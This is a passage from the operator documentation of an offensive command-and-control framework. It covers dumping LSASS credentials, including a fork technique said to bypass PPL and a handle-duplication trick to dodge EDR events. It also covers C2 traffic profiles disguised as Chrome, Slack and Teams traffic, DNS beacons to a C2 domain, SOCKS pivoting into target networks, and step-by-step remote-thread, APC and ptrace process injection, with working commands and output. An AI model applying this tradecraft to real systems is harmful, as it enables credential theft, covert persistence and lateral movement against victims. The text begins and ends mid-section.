loader. Windows only. See [BOF Registry](#bof-registry) for the full
workflow.

---

## LSASS minidump

`lsassdump --dump [--fork] [--duplicate] [--elevate] [--out <path>]`
creates a minidump of `lsass.exe` and writes it to the target. The
dump is **not** exfiltrated automatically — the client prints the
target-side path and the operator pulls it with the framework's
normal chunked `download`, which verifies SHA-256 and, unless
`--no-loot` is passed, stores the file in the loot store.

### Why this is the one exception to the framework's low-signal set

Every other native verb in this framework is low-signal by
construction: they are the syscalls a normal process makes. Reading a
file, listing a directory, enumerating a token, saving a registry
hive — none of those operations is itself an indicator of
compromise.

LSASS credential extraction is different. The operation is the
indicator. The three techniques the verb uses have all been
documented in public tradecraft for a decade, and each is
independently watched for on hosts with EDR:

| Signal | Where it fires |
|--------|---------------|
| LSASS `ProcessAccess` event with `PROCESS_VM_READ` | Every EDR, since 2015 |
| `MiniDumpWriteDump` imported in a process that is not `dbghelp`-consumer-shaped | Common heuristic |
| `NtCreateProcessEx` with LSASS as parent and a `SEC_IMAGE` section | Advanced EDR and memory-forensics tooling |
| `AdjustTokenPrivileges` on the `SeDebugPrivilege` LUID | Kernel-provided, high-signal |

**The transport is still honest.** The verb runs entirely in-process
through `syscall`: no PowerShell, no `Add-Type`, no C# bootstrap, no
child process, no `Sysmon EventID 1`. That is a real reduction in
noise compared to the public plugin the verb replaces, which shells
out to `powershell.exe` and compiles C# at runtime. But it is not a
claim that the *action* is quiet. It is not, and it cannot be made to
be.

### The techniques

The verb tries them in order, with the first success being the one
reported:

1. **Direct.** `OpenProcess(LSASS, PROCESS_QUERY_INFORMATION |
   PROCESS_VM_READ)` then `MiniDumpWriteDump`. Works whenever LSASS
   is not PPL-protected and `SeDebugPrivilege` is held.
2. **Duplicate.** Walk the system handle table with
   `NtQuerySystemInformation(SystemExtendedHandleInformation)`, find
   another process that already holds a `PROCESS_VM_READ` handle to
   LSASS, and duplicate it with `NtDuplicateObject`. The beacon never
   calls `OpenProcess` on LSASS with `VM_READ`, so the obvious
   `ProcessAccess` event for this PID does not fire. It requires
   another process to hold a suitable handle, which is uncommon on a
   hardened host.
3. **Fork.** `NtCreateSection` with `SEC_IMAGE` on the on-disk
   `lsass.exe`, then `NtCreateProcessEx` with LSASS as parent and that
   section as the child's image. `MiniDumpWriteDump` against the
   child captures LSASS's address space through the copy-on-write
   view, bypassing LSASS's own PPL protection. This is what lets the
   verb reach LSASS on a host where the direct open is refused.

`--elevate` acquires `SeDebugPrivilege` before the first attempt. It
is opt-in because a beacon already running as SYSTEM holds the
privilege without an `AdjustTokenPrivileges` call, and skipping the
call skips the sensitive-LUID log line.

### The `--out` path is on the target, not the operator

Unlike the plugin this verb replaces, `--out` names a path on the
**target**. The default is `%TEMP%\lsass.dmp` — the same location a
hundred legitimate crash-dump tools use. That is deliberate: a dump
written to `C:\Windows\Temp\` or `C:\ProgramData\` is unusual enough
to attract attention on its own.

The client prints the resolved target path when the dump succeeds and
tells the operator to pull it with `download`. There is no
bespoke transfer path in the verb, and the loot store's normal
SHA-256-verified chunked upload applies once the operator runs
`download`.

### What the verb does not do

- **No on-target parsing.** The dump is opaque bytes until the
  operator pulls it and runs their own tooling. The verb does not
  embed a `secretsdump`-equivalent, because that would put a
  known-signature LSASS parser inside the beacon's own image.
- **No automatic exfiltration.** A dump on disk is exactly the
  artifact a defender's disk-forensics pass looks for. Making the
  operator type `download` after `lsassdump` is deliberate — it
  keeps the network egress decision separate from the collection
  decision.
- **No macOS or arm64 support.** The handle-table walk and the
  section/process trick are amd64-specific. An arm64 build refuses
  the verb at the same build gate as `migrate <pid>`.

### Client-side confirmation

The client prints a warning and asks for confirmation before
dispatching the task, because the cost of a mistyped invocation is a
logged `ProcessAccess` event on a production host:

```
  lsassdump will create a minidump of LSASS on the target.
  This is the highest-signal action the framework can take. ...
  proceed? [y/N]
```

The warning is not skippable by a flag. An operator who wants to
script `lsassdump` against a lab host can call the API directly; the
interactive path keeps the moment of acknowledgement where it
belongs.

---

## BOF Registry

TornadoC2 stores every BOF in a **shared server-side registry**. An
operator registers a BOF once; every other operator on the team server
can then run it by name without needing a local copy. This is
different from the traditional model, where each operator's machine
holds its own collection and every operator ships their own `.o`
files.

### Two commands, two scopes

| Command | Scope | Purpose |
|---|---|---|
| `bofs` / `bf` | Main (no beacon attached) | Manage the server-side registry — `list`, `add`, `remove` |
| `bof` | Beacon (attached) | Run a BOF against the attached target |

`bofs` is what you type from the top-level prompt. `bof` is what you
type once you have attached to a Windows beacon.

### The registry

Two artifacts back the registry:

```
bofs/
  <name>.o                    raw COFF bytes, 0600

logs/
  .tornadoc2_bofs.json        metadata index, 0600
```

The JSON index carries, per BOF:

| Field | Meaning |
|---|---|
| `sha256` | Digest of the stored bytes |
| `size` | COFF size in bytes |
| `arch` | `x64` or `x86`, derived from the COFF header |
| `format` | `bof_pack`-format string declared by the CNA at import time, or empty |
| `description` | Human-readable description, if one was supplied |
| `source` | Filename the BOF was uploaded from, for provenance |
| `origin` | `upload`, `cna`, or whatever the uploading code named it |

### Managing the registry

From the top-level operator prompt:

```
adc > bofs list
── BOFS  ·  3 registered ──────────────────────────────────────
  dir                     arch=x64 fmt=-   3.4K sha256=a3f1c9d2b4e8…
  netuser                 arch=x64 fmt=zz  8.1K sha256=8b2e7a5f9c31…
  whoami                  arch=x64 fmt=-   4.2K sha256=2c1d5e9a8f47…

adc > bofs add ./whoami.x64.o
[*] uploading 1 BOF(s) from ./whoami.x64.o
  ✓ whoami                   arch=x64 4.2K

adc > bofs add ./bofs/trustedsec/
[*] uploading 12 BOF(s) from ./bofs/trustedsec/
  ✓ whoami                   arch=x64 4.2K
  ✓ netuser                  arch=x64 8.1K
  ✓ dir                      arch=x64 3.4K
  ...
registered 12/12

adc > bofs add ./replace.x64.o --as whoami --replace
  ✓ whoami                   arch=x64 4.2K (replaced)

adc > bofs remove whoami
  remove BOF 'whoami'? Other operators will not be able to run it. [y/N] y
✓ removed whoami
```

| Sub-verb | Effect |
|---|---|
| `bofs list` / `bofs ls` | List every registered BOF |
| `bofs add <path>` | Register a `.o`, `.obj`, `.cna`, or directory |
| `bofs add <path> --as <name>` | Override the derived name |
| `bofs add <path> --replace` | Overwrite an existing registration |
| `bofs remove <name>` | Delete the blob and the registry entry |
| `bofs help` | Usage |

When a name already exists, `add` refuses by default and returns 409.
Pass `--replace` to overwrite.

### Importing from a `.cna`

A `.cna` file is an Aggressor manifest — it references a COFF object
and declares how to run it. The client parses the `.cna` locally,
extracts the alias name, the referenced object path, and the
`bof_pack` format string, reads the `.o` file, and uploads **only the
COFF bytes**. The `.cna` never leaves the operator's machine.

Example `whoami.cna`:

```c
alias whoami {
    bof_pack($1, "z", $1);
    bof("whoami.x64.o", $1);
}
```

`bofs add ./whoami.cna` results in a registry entry named `whoami`,
with the COFF bytes of `whoami.x64.o` and a stored format string of
`z`.

If the `.cna` references a missing object, or no `bof()` or
`script_resource()` call is found, the client refuses with a
descriptive error and no registry entry is created.

### Executing from the registry

Attach to a Windows beacon and run a registered BOF by name:

```
beacon> use 1002
attached to #1002 — alive, sleep=60s

● beacon#1002 > bof whoami
queued 3f8a1c2d
✓ bof  2.31s
  DOMAIN\alice

● beacon#1002 > bof netuser alice CORP
queued 4a1b2c3d
✓ bof  3.12s
  User name        alice
  Full name        Alice Smith
  ...
```

The client fetches the COFF bytes from `/api/v1/bofs/get`, packs the
arguments according to the stored format string, and dispatches the
task.

### Argument packing

The `format` field stored at import time controls how arguments are
packed into the `bof_pack` byte stream. Each character in the format
string maps to one argument:

| Char | Type | Encoding |
|---|---|---|
| `z` | UTF-8 string | 4-byte LE length, bytes, NUL terminator |
| `Z` | UTF-16-LE string | 4-byte LE length, code units, 2-byte NUL |
| `i` | int32 | 4-byte LE signed |
| `s` | int16 | 2-byte LE signed |
| `b` | binary blob | base64-decoded, then 4-byte LE length, bytes |

If a BOF was registered without a format string — for example from a
bare `.o` upload rather than a `.cna` — the client falls back to
packing every argument as a single space-joined `z` string, which is
what most single-argument BOFs expect.

Example: a BOF registered with format `zz` and run with `bof adduser
alice hunter2` produces a byte stream containing two independent
length-prefixed null-terminated strings:

```
06 00 00 00  a l i c e  00           ← "alice\0"
08 00 00 00  h u n t e r 2  00       ← "hunter2\0"
```

The BOF's two `BeaconDataExtract` calls then read one string each.

### Windows-only execution

BOF execution is a **Windows-only capability.** A COFF object is a
Windows-native format; the Beacon API and the Go COFF loader both
depend on the Windows ABI. This is enforced at three layers:

1. **Catalogue.** The `bof` entry carries `platforms: ['windows']`.
   When the operator client attaches to a Linux beacon, the server
   re-fetches the catalogue filtered by the target's OS and `bof`
   is not offered.
2. **Client.** `_cmd_bof` refuses with a clear message before doing
   any work when the attached beacon is not Windows.
3. **Server.** `_beacon_task` refuses a `bof` task to a non-Windows
   session with 400 and writes a `beacon.use` audit entry naming the
   offending verb and the actual OS.

A Linux agent has no `execBOF` implementation and the Go compiler
rejects the build if the dispatch path is somehow reached.

The `bofs` command itself is available from any platform — the
registry is server-side state, and an operator on a Linux engagement
who is preparing for a follow-on Windows phase can populate the
registry in advance.

### Size limits

| Limit | Value | Where |
|---|---|---|
| Per-BOF size | 10 MiB | `bof_registry.MAX_BOF_BYTES` |
| Registry count | 64 | `bof_registry.MAX_BOF_COUNT` |
| Base64 blob in a task | 16 MiB per arg | `server.py:_beacon_task` |
| Total task bytes | 32 MiB | `server.py:_beacon_task` |

A BOF near the 10 MiB cap encodes to roughly 13.4 MiB of base64, well
inside the 16 MiB per-arg ceiling. Two full-size BOFs queued
simultaneously stay inside the 32 MiB total.

### What the server never does

The team server is a **blob broker**. It stores, indexes, and serves
COFF bytes; it never interprets them. There is no `subprocess`, no
`ctypes`, no `importlib`, no `eval`, and no `os.system` anywhere in
the BOF code path. On upload, the server validates the first two
bytes of the file for a known COFF machine type and writes the bytes
to disk. On download, it opens the file, verifies the on-disk digest
against the registry entry, and returns the bytes base64-encoded.

Execution happens on the target, when the beacon's Go code hands the
COFF to its in-process Go COFF loader. There is no PowerShell child,
no `csc` invocation, no `Add-Type`, and no temp file on the target
side. The server has no path to that code.

---

## C2 Profile Catalogue

The `c2-profiles` command (alias `c2p`) lists every C2 profile the
server can build agents against, so an operator can pick one before
submitting a build request rather than guessing at names.

### Listing

```
beacon> c2-profiles
── C2 PROFILES  ·  4 ──────────────────────────────────────────
  chrome  Google Chrome API mimic
    ua     : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKi…
    paths  : /api/v1/analytics/collect  /api/v1/analytics/tasks  /api/v1/analytics/submit
    shaping: checkin_response, tasks_response

  slack  Slack client mimic
    ua     : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKi…
    paths  : /api/client.connect  /api/client.events  /api/client.msg

  teams  Microsoft Teams beta mimic
    ua     : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKi…
    paths  : /api/mt/part/emea-03/beta/users  /api/mt/part/emea-03/beta/tasks  /api/mt/part/emea-03/beta/messages

  stealth-json  JSON-in-JSON wrapper, no browser mimicry
    ua     : (built-in default)
    paths  : /beacon  /tasks  /results
    shaping: results_request

  show one profile's full JSON:  c2-profiles <name>
  use in a build:  --c2-profile <name>  |  "c2_profile": "<name>" in a config file
```

### Full JSON

```
beacon> c2-profiles chrome
── C2 PROFILE  ·  chrome ──────────────────────────────────────

{
  "beacon_path": "/api/v1/analytics/collect",
  "extra_headers": {
    "X-Client-Data": "CJW2yQ..."
  },
  "results_path": "/api/v1/analytics/submit",
  "shaping": {
    "checkin_response": { "extract": "data.b64", "template": {...} },
    "tasks_response":   { "extract": "data.b64", "template": {...} }
  },
  "tasks_path": "/api/v1/analytics/tasks",
  "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ..."
}

  use: --c2-profile chrome  |  or "c2_profile": "chrome" in a config file
```

The full JSON can be copied as a starting point for a new profile:
save it under `profiles/c2/` with an edit, restart the handler, and
the new profile is auto-discovered.

### Access control

`c2-profiles` requires `beacon.build`. An operator who cannot compile
an agent has no reason to enumerate the fleet's HTTP fingerprints,
and the catalogue entry is filtered out of their role's command list
before it reaches their client.

### Use in a build

```
beacon> beacon-build windows amd64 --c2-profile chrome --tls-profile chrome

# or, in a JSON build config:
{
  "target_os": "windows",
  "target_arch": "amd64",
  "c2_profile": "chrome",
  "tls_profile": "chrome"
}
```


The `c2_profile` name is validated at build time. An unknown name
fails fast with a 400 and a specific error, rather than silently
producing an unshaped agent.

A DNS or DoH build can name the `dns` profile to change the verb
characters and chunk size the agent uses:

```
beacon> beacon-build linux amd64 --transport dns \
        --dns-domain c2.example.com \
        --c2-profile dns
```

The listener must be started against the same profile for the
verbs to match:

```
python tornadoc2.py --beacon-port 8881 \
    --dns-port 53 --dns-domain c2.example.com \
    --beacon-profile dns
```

Without `--beacon-profile`, the listener scans `profiles/c2/` in
alphabetical order and uses the first `dns_label` block it finds.

### Profile authoring rules

A profile is a JSON file under `profiles/c2/`. The handler scans the
directory at startup and registers every declared path as a route.
The agent embeds the profile's JSON at build time and validates the
shaping block before the binary is written. Four rules are enforced;
a profile that violates any of them is refused, either at handler
startup or at agent build time.

**1. Every role must have a distinct path.** `beacon_path`,
`tasks_path`, and `results_path` cannot be the same string. A profile
whose three paths are identical registers only one route and shapes
only one role; the other two fall through to plain JSON, and an agent
that expects shaped responses fails to unwrap them. `github.json`,
`gitlab.json`, and `google-analytics.json` all shipped with this bug
in early releases; the corrected versions use distinct paths per
role.

**2. No query strings in paths.** The listener registers routes with
Flask, which matches against `request.path` — the path with the query
string stripped. A profile that declares
`/container?restype=container&comp=list` produces a route for
`/container`, and a second profile that declares the same bare path
for a different role collides with the first. Put the discriminator
in a path segment, not in a query string.

**3. Extract paths must start with a word character.** The walker
regex is `^(\w+)(?:\[(\d+)\])?$`. A path segment may be a key with an
optional `[N]` index — `results[0]`, `data.items[3]`, `value` — but a
bare leading index like `[0].title` is rejected at agent build time
with `bad path segment: "[0]"`. For a top-level JSON array, wrap the
array in an object and index into it: `{"items": [...]}` with
`extract: "items[0].field"`.

**4. `{{payload}}` must be present in every extracted field.** The
`extract` path names the field the walker reads and base64-decodes.
If that field does not contain `{{payload}}`, the base64 decode
produces garbage and the agent fails to parse the response. A profile
whose `checkin_response` template has `{{payload}}` at
`data.envelope.b64` must have `extract: "data.envelope.b64"` — the
path to the field where the payload was written, not a plausible-
looking sibling.

The agent runs `features.ValidateShapingSpec` on the embedded block
before the build completes: it renders a probe payload through each
template, walks the extract path, and verifies the payload comes back
unchanged. A failure names the specific shape — `checkin_response`,
`tasks_response`, or `results_request` — and the exact extract path
that failed. The build is aborted; no binary is emitted.

### Placeholders

| Placeholder | Substituted in |
|-------------|----------------|
| `{{payload}}` | Response body templates only |
| `{{ts}}` | Response body templates only |
| `{{nonce}}` | Response body templates only |

The three placeholders are substituted by the shaping renderer, which
runs on the response body. They are **not** substituted in
`beacon_path`, `tasks_path`, `results_path`, `extra_headers`, or
`request_headers`. A path that embeds `{{nonce}}` becomes a literal
route named `/container/{{nonce}}.dat`, which no agent will ever
match. A header whose value is `{{ts}}` is sent verbatim as the
four-character string `{{ts}}`; a service that rejects a malformed
timestamp rejects the request, but the C2 does not care, because the
header is a blend artifact rather than a functional field.

### Profiles do not apply to every transport

**The C2 profile is read selectively by transport.** The table
below names what each transport consumes; a field not listed for a
transport is silently ignored on that transport.

| Field | HTTP | QUIC | WebSocket | WireGuard | DNS | DoH | ICMP | SMB/TCP/TCPr pivot |
|---|---|---|---|---|---|---|---|---|
| `beacon_path` / `tasks_path` / `results_path` | ✓ | ✓ | ✓ (one handshake path per verb) | ✓ (inner HTTPS) | — | — | — | parent's transport |
| `user_agent`, `linux_user_agent` | ✓ | ✓ | ✓ | ✓ (inner HTTPS) | — | — | — | parent's transport |
| `extra_headers`, `request_headers` | ✓ | ✓ | ✓ | ✓ (inner HTTPS) | — | — | — | parent's transport |
| `shaping` (checkin/tasks/results) | ✓ | ✓ | ✓ (no placement) | ✓ | — | — | — | child's own |
| `status` | ✓ | ✓ | ✓ (checked, not returned) | ✓ | — | — | — | — |
| `cookie_name` | ✓ | ✓ | ✓ (in envelope) | ✓ | — | — | — | — |
| `response_headers` | ✓ | ✓ | — | ✓ | — | — | — | — |
| `dns_label` | — | — | — | — | ✓ | ✓ | — | — |
| `stager` | ✓ | ✓ | ✓ | ✓ | — | — | — | — |

Notes on the columns:

**WireGuard.** The C2 protocol travels as a real HTTPS request
*inside* the WireGuard tunnel, so from the listener's perspective
the request is an ordinary HTTP request and the profile applies
end to end. The only thing a profile cannot control is the outer
WireGuard handshake and the inner TLS ClientHello; see the
[WireGuard](#wireguard) transport section above.

**WebSocket.** The transport carries the same JSON body HTTP
carries inside a frame. Paths, User-Agent, extra headers, shaping,
encoding, and cookie name all apply. **Placement is deliberately
ignored** — a WebSocket frame has no HTTP header layer for a
`placement: header` block to write into, and the listener signals
the dispatcher to skip placement by setting `TORNADO_WS` in the
Flask request environment. The session cookie travels inside the
frame envelope rather than in a `Cookie` header, because
`simple-websocket` does not expose one.

**QUIC.** The QUIC listener subclasses `BeaconListener`, so every
response the Flask app produces — including header and cookie
placement, `response_headers`, and the `X-Beacon-*` scheduling
headers — travels back on the HTTP/3 response exactly as it would
on HTTP/1.1.

**DNS and DoH.** These two transports read **only** the `dns_label`
block. The three path fields, the User-Agent, the header blocks,
the shaping block, the status codes, and the cookie name are all
ignored on a DNS or DoH build.

**ICMP.** Reads nothing from the profile.

**C2 profiles apply to both the parent and the child on an SMB or TCP pivot build.** The child shapes its own C2 body against the profile it was built with, then wraps the shaped body in its own wire envelope. The parent's relay forwards both the child's and the server's wire envelopes verbatim: it never touches the shape. This is forced by wire encryption — the shaped body sits inside the child's wire envelope, and the parent does not hold the child's wire session key. Only the child can decrypt the envelope and unwrap the shape.
Both the parent and the child should be built with the same --c2-profile. The parent's profile determines the paths on its own direct requests to the server; the child's profile determines the shape the child produces and consumes. If the two profiles differ, the child will fail to unwrap the shaped responses the server produces using the paths the parent sent.

---

## SOCKS5 Pivoting

The remote operator client can run a SOCKS5 proxy on its own
`127.0.0.1` and route every connection through the team server to a
beacon dial-back.

### Usage

```
adc > use 1001
adc@#1001 > socks start 1080
✓ SOCKS5 proxy listening on 127.0.0.1:1080 for beacon #1001
```

Then, from any terminal on the operator's machine:

```bash
curl --socks5 127.0.0.1:1080 http://10.0.0.5/admin
```

### Data path

```
tool → 127.0.0.1:1080 (client SOCKS5)
     → mTLS to server:beacon_port+2 (tunnel)
     → team server pivot slot + nonce
     → pivot_connect task → beacon dials server:beacon_port+1
     → beacon dials 10.0.0.5:80 from the target's network
     → bytes pipe back through the tunnel
```

### Prerequisites

- The handler must be started with `--operator-port`.
- The beacon must be polling. Set `sleep 0` before starting the proxy.
- The operator must have `beacon.socks`.

### Limitations

- **Beacon-dependent.**
- **Per-beacon.**
- **No server-side proxy.**
- **No UDP.**

---

## Migration

`migrate` moves the beacon's execution into a new process. Two forms,
both available on Linux and Windows when the build enabled injection:

```
migrate --self                       detach a copy of the agent and exit
migrate <pid> [--method <name>]      inject into the given PID
migrate <name> [--method <name>]     resolve a process basename to a PID,
                                     inject
```

The `--method` flag is optional on both inject forms. When it is
absent, the build-time default — `inject_method` in the build config
— is used. When the build-time default is also absent, the framework's
historical path runs: `CreateRemoteThread` on Windows, `ptrace` on
Linux.

Valid values are `default` and `apc`. `threadpool` and `fiber` are
recognised so that an operator who types them gets a specific refusal
naming `execmem` as the correct verb — both techniques are
process-local and cannot reach a foreign process. `callback` is
refused as not implemented. See
[Injection backends](#injection-backends).

The catalogue entry is platform-aware: the server filters it to the
attached beacon's OS, so a Linux beacon offers the ptrace-injection
description and a Windows beacon offers the CreateRemoteThread
description. The verb itself is the same on both.

The child generates the same machine fingerprint the parent did —
same `machine_id`, `hostname`, `username`, and `os` — so the server
re-attaches to the existing session rather than creating a second
one. The beacon ID does not change. The next command the operator
types runs on the child.

```
● beacon#1001 > migrate --self
  ✓ migrate  0.55s
    migrated: child=5823 target=self

● beacon#1001 > migrate explorer.exe
  ✓ migrate  3.41s
    injected: pid=4711 exit=0

● beacon#1001 > migrate 4711
  ✓ migrate  3.12s
    injected: pid=4711 exit=0
```

### Injection backends

Two backends ship for `migrate <pid>` / `migrate <name>`.

**`default`** — the framework's historical path. Windows:
`OpenProcess` → `VirtualAllocEx` → `WriteProcessMemory` →
`CreateRemoteThread`, with a 10-second `WaitForSingleObject` on the
bootstrap thread. Linux: `PTRACE_ATTACH` → register save → mmap stub
→ `process_vm_writev` → `PTRACE_DETACH`. Both are described in full
below. `CreateRemoteThread` from a non-allowlisted parent is one of
the highest-signal events a Windows EDR sees; `PTRACE_ATTACH` from a
non-debugger is a syscall auditd is commonly configured to log. The
`default` backend is what the framework shipped before `--method`
existed, and it remains the default because it is the most reliable.

**`apc`** — remote APC injection, Windows only. The shellcode is
mapped into the target with the same `VirtualAllocEx` /
`WriteProcessMemory` sequence the `default` path uses, then queued to
every thread in the target process through `NtQueueApcThread`. The
kernel runs the shellcode on the first thread that enters an alertable
wait. There is no new thread and no `CreateRemoteThread` event.

The signal profile is different in three ways:

- **No thread creation.** The target's thread count does not change.
- **No remote-thread event.** The thread that runs the shellcode is
  one the target process already owned.
- **`NtQueueApcThread` fires instead.** Every major EDR vendor
  instruments it. The baseline severity is lower than
  `CreateRemoteThread` from an unsigned image, but the event is not
  silent.

The APC path uses a narrower access mask than the default path —
`PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ |
PROCESS_QUERY_INFORMATION` rather than `PROCESS_ALL_ACCESS` —
because it does not need `PROCESS_CREATE_THREAD`. That is a strictly
smaller footprint on the target's security descriptor.

`apc` is refused at build time on a non-Windows target. A Linux
build that names it gets a clear error at `beacon-build`, not a
silent fallback to `ptrace`.

**Why `threadpool`, `fiber`, and `callback` are not on `migrate`.**
Fibers and Windows thread-pool work items are both process-local
primitives — the target cannot be asked to run either on behalf of
another process without first injecting a bootstrap that calls the
API, which defeats the purpose. They belong on `execmem`, where they
can be scoped to the current process; the framework does not yet
implement them there, and the parser refuses the names with a message
naming the correct verb. The `callback` technique requires a
hijackable function pointer that varies per target process and is not
implemented.

### Build-time requirement

Foreign-process injection embeds the agent's own shellcode, produced
at build time by a platform-specific second pass. The shellcode is
set on the config as `injector_shellcode_b64` and emitted as
`-X main.InjectorShellcodeB64=...`. A build without it embeds no
shellcode, and `migrate <pid>` refuses at runtime with a specific
error naming the missing artifact.

**Injection is opt-in, on both platforms.** The `inject` field in
the build config defaults to `false`, and no OPSEC profile sets it.
Set it explicitly — `--inject` on the command line, `"inject": true`
in a JSON build config — to enable the second build pass.

`migrate --self` works with or without injection. Only the
foreign-process form needs the embedded shellcode.

**The second pass is platform-specific.** On Windows the builder
runs Donut on the pass-1 PE. On Linux it prepends a vendored
ELF-loader stub — `beacon/bin/inject_linux_stub.bin` — to the
pass-1 ELF. Both produce a single shellcode blob that the runtime
maps into the target's address space and jumps to. Donut is not
consulted on Linux; the stub is not consulted on Windows.

### What `--self` does

`migrate --self` **spawns a detached copy of the agent's own binary
and exits the current process.** No injection. The on-disk binary at
`os.Executable()` is re-launched as a child, redirected to
`/dev/null` on all three standard descriptors, and placed in a
state that survives the parent's exit.

A readiness handshake ensures the parent does not delete itself
before the child has actually entered the beacon loop. The parent
writes a unique path to `os.TempDir()` — `.t2-migrate-<pid>-<ns>.ready`
— passes it through the `TORNADO_MIGRATE_READY` environment variable,
and waits up to 30 seconds for the child to create that file. The
child calls `signalMigrateReady()` **after** it has passed every
anti-sandbox, anti-debug, and anti-VM check, so a child that exits on
one of those checks never signals. On timeout, the parent reports the
failure and **stays alive** — a live parent is preferable to zero
live beacons, and the operator can retry once the environment issue
is resolved.

#### Detachment semantics, per platform

**Linux.** The child is placed in its own process group
(`Setpgid: true`, `Pgid: 0`) so it survives a signal sent to the
parent's group — the default `KillMode=control-group` under a
systemd unit, or a `kill -- -$PGID` from an operator who knows what
they are doing. Once the parent exits, the child is reparented to
PID 1. The parent unlinks its own on-disk binary before exiting, so
`readlink /proc/<child-pid>/exe` shows a `(deleted)` suffix — the
child continues to run from the inode while the path is gone. A
background `cmd.Wait()` reaps the child so the parent never becomes
a zombie parent in the window before it exits.

**Windows.** The child is spawned with
`CREATE_BREAKAWAY_FROM_JOB | DETACHED_PROCESS |
CREATE_NEW_PROCESS_GROUP | CREATE_NO_WINDOW`, so it is not bound to
any job object the parent belongs to, has no console attached, and
is in its own process group. Without `CREATE_BREAKAWAY_FROM_JOB`, a
parent under a job with `JOB_OBJECT_LIMIT_KILL_ON_JOB_CLOSE` — the
default in modern service managers and CI runners — would take the
child down with it. The binary stays on disk while the child runs —
the kernel holds an implicit handle to the image — and is removed
when the child exits, matching the stager's
`FILE_FLAG_DELETE_ON_CLOSE` behaviour.

### What `<pid>` / `<name>` does

`migrate <pid>` and `migrate <name>` perform **foreign-process
injection** of the agent's own shellcode. The shellcode is produced
at build time by a platform-specific second pass and is embedded in
the binary as `InjectorShellcodeB64`. The injected payload is a
full beacon: it checks in on the same schedule the parent did,
presents the same machine fingerprint, and reattaches to the same
server-side session.

**Two-pass build.** Injection forces a second `go build` on the same
source tree. Pass 1 produces a normal beacon binary. A
platform-specific loader — Donut on Windows, a vendored ELF-loader
stub on Linux — wraps that binary into the embedded shellcode.
Pass 2 produces the shipped binary, which contains pass-1-as-
shellcode. The two binaries are functionally equivalent; only pass 2
is delivered. The self-reference is unavoidable — pass 2 cannot
embed a byte-identical copy of itself — so **the injected child is a
pass-1 beacon**: it can run every verb including `migrate --self`,
but `migrate <pid>` from the child refuses, because its
`InjectorShellcodeB64` is empty. If you need chain injection, inject
from the parent.

#### Windows injection — `default` backend

Classic remote-thread injection via the Win32 API, reached through
`syscall.NewLazyDLL("kernel32.dll")` — no `golang.org/x/sys/windows`
dependency, matching the agent's stdlib-only policy on that side.

1. `OpenProcess(PROCESS_ALL_ACCESS)` against the target.
2. `VirtualAllocEx` an RWX region (`PAGE_EXECUTE_READWRITE`) in the
   target's address space.
3. `WriteProcessMemory` the shellcode into the mapped region.
4. `CreateRemoteThread` pointing at the mapped shellcode.
5. `WaitForSingleObject` with a 10-second timeout.
6. `GetExitCodeThread` reads the thread's exit code.
7. `VirtualFreeEx` and `CloseHandle` on both handles.

A Donut shellcode that successfully bootstraps the Go runtime and
starts checking in typically returns from its bootstrap thread in
well under a second — it detaches the beacon loop into its own
goroutine — so a wait timeout is treated as informational, not as a
failure. The exit code is read and reported regardless.

The 13 MB payload — a typical Go beacon's Donut-wrapped PE — is a
single `WriteProcessMemory` call, not a chunked write. There is no
`PROCESS_ALL_ACCESS` requirement beyond the initial `OpenProcess`.

#### Linux injection

`ptrace`-based injection, in the sequence the shape of the `ptrace`
API requires.

1. `PTRACE_ATTACH` against the target, then `wait4` for `SIGSTOP`.
2. `PTRACE_GETREGS`, saving the caller's registers.
3. Write a 16-byte `syscall; ret` stub over the target's `RIP` via
   `PTRACE_POKEDATA`. The stub is trivially reusable — the register
   state (`rax=9`, `rdi`, `rsi`, `rdx=0x7`, `r10=0x22`, `r8=-1`,
   `r9=0`) is set by the parent, not by the stub, so the stub itself
   is two bytes of real code and fourteen bytes of padding.
4. Set up those registers in a `PTRACE_SETREGS` call and
   `PTRACE_CONT` the target. `PTRACE_GETREGS` again reads the mapped
   address out of `RAX`.
5. Restore the original 16 bytes at the old `RIP` — the target may
   run them if the payload ever returns — and restore every saved
   register except `RIP`.
6. `process_vm_writev` the shellcode into the freshly mapped region.
   `process_vm_writev` is used instead of dozens of `PTRACE_POKEDATA`
   calls because a 13 MB payload would otherwise take minutes.
7. `PTRACE_SETREGS` to point `RIP` at the shellcode entry, then
   `PTRACE_DETACH`.

Every failure path after the initial `PTRACE_ATTACH` runs through a
deferred `PTRACE_DETACH`, so a mid-injection error does not leave the
target stopped. `waitStopped` re-injects any stop signal other than
`SIGSTOP` or `SIGTRAP` so the injection does not silently swallow a
signal the target was waiting for.

**A tracer cannot attach to a process in its own thread group.**
`migrate <own-pid>` on Linux is refused with a specific message
pointing at `migrate --self` — the kernel rejects the attach with
`EPERM`, and the code checks for this case before the syscall rather
than surfacing the kernel error.

**The mapped region holds `<stub><elf>`.** `injectInto` maps an
RWX region sized to the whole shellcode, writes the stub-then-ELF
blob into it, and points `RIP` at the stub. The stub locates the
ELF by offset — it knows its own length — creates a `memfd_create`
anonymous file, writes the ELF into it, and `fexecve`s the
descriptor. The ELF never exists as a path in the target's
filesystem; the memfd lives only in memory, and the descriptor is
`MFD_CLOEXEC`.

#### Windows injection — `apc` backend

The mapping sequence is the same as the `default` backend through
`WriteProcessMemory`. The difference is what happens after the
shellcode is in the target's address space.

1. `CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD)` enumerates every
   thread in the system.
2. For each thread whose `OwnerProcessID` matches the target,
   `OpenThread(THREAD_SET_CONTEXT | THREAD_SUSPEND_RESUME)` is called.
   The second flag is required because `NtAlertThread` below needs it.
3. `NtQueueApcThread(thread, shellcode_addr, 0, 0, 0)` queues the APC.
4. `NtAlertThread(thread)` nudges the thread out of a non-alertable
   wait. Its return is discarded — a thread that is already alertable
   returns `STATUS_SUCCESS`, one that was not returns
   `STATUS_ALERTED`, and either outcome is fine.

The shellcode allocation is **not freed** when `injectAPC` returns.
The APC has not fired yet; freeing the region now would unmap the
shellcode before the target thread can execute it. The allocation is
reclaimed when the target process exits, or when the shellcode calls
`VirtualFree` on itself. This is the principal behavioural difference
from the `default` backend, which frees its allocation on the success
path because the bootstrap thread has already returned by then.

The function returns `0` on success. There is no thread handle to
wait on and no exit code to read; the caller's `exit=0` line means
"APC queued", not "shellcode exited cleanly". A verbose diagnostic
line reports the mapped address, the shellcode size, and how many
